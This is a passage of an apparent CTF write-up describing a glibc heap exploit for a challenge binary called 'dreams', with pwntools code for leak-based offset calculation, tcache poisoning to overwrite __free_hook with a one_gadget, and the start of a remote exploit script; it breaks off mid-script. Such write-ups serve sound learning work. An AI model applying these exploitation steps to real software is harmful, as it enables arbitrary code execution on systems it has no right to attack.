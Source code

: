 That just worked.  I was really pleased.  For about 5 minutes.

Getting the glibc leaks was easy enough, just had to debug and calculate some offsets to get something like this:

```python
glibcleak = heapleak(10) #glibc
glibcbase = glibcleak - 2018272 #mainarena + 88 if I recall correctly
oneg=0xe3b2e
onegadget = glibcbase + oneg
freehook = glibcleak + 8808
```

I was so ready to just win at this point (time was running out) then I setup the rest of the exploit just in case:

```python
malloc(41, "free1", "free1a")
malloc(42, "free2", "free2a")
free(41)
free(42)
hack(42, p64(freehook-16))
malloc(43, "junk", "junk2")
malloc(44, "junk", p64(0) + p64(onegadget))
free(43)
```

This would setup the last write-what-where and drop our onegadget into the `__free_hook`.  BUT NO.

So what was wrong with this picture?  Well, if I do a malloc and all of the tcache and fastbins are empty, then it's going to check the unsorted bins.  But if you ran `bins` after my glibc leak, you'd see the unsorted bins were labelled `corrupted`.  I started to panic there wasn't time to figure out how to make my fake chunk more real, only 30 minutes left and I had to get home ASAP too.

But then it struck me,  if the tcache isn't empty, there's no problem, so let's just malloc those WWW chunks BEFORE we free the fake one.

The rest was history, 24 minutes left in the CTF and I cracked a proper heap problem!

Here's the script including the utilities:

```python
from pwn import *

elf=ELF("./dreams")
libc = ELF("./libc.so.6")

#TMUX mode (not confident)
#context.terminal = ['tmux', 'splitw', '-h']
#p=gdb.debug("./dreams")#, gdbscript=gs)

#LOCAL MODE (more confident)
#p=process("./dreams")

#REMOTE MORE (let's get this)
p=remote("challs.actf.co",31227)

def malloc(idx, pay1, pay2):
    global p
    r1 = p.sendlineafter(b"> ", "1")
    r2 = p.sendlineafter(b"keep this dream? ",str(idx))
    r3 = p.sendlineafter(b"yy))? ",pay1)
    r4 = p.sendlineafter(b"you dream about? ", pay2)
    return r1 +r2+r3+r4


def free(idx):
    global p
    r1 = p.sendlineafter(b"> ", "2")
```